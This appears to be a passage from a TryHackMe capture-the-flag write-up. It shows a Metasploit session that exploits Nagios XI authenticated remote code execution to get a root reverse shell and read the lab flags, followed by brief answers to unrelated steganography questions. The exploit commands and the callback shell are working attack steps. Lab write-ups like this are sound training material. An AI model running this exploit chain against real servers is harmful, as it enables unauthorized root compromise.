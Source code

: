 ```
Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set RHOSTS 10.10.135.242
RHOSTS => 10.10.135.242
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > run
```

```
meterpreter > shell
Process 13658 created.
Channel 1 created.
ls
CHANGES.txt
getprofile.sh
profile.inc.php
profile.php
whoami
root
cd /home
ls
galand
cd galand
ls
nagiosxi
user.txt
cat user.txt
THM{84b17add1d72a9f2e99c33bc568ae0f1}
cd /root
ls
root.txt
scripts
cat root.txt
THM{c89b2e39c83067503a6508b21ed6e962}
```

1. What hidden file did you find?

`/PI3T.PNg`

3. Who is the creator of the file?

`Piet Mondrian`

5. If you get an error running the tool for on your downloaded image about an unknown ppm format -- just open it with gimp or another paint program and export to ppm format and try again!
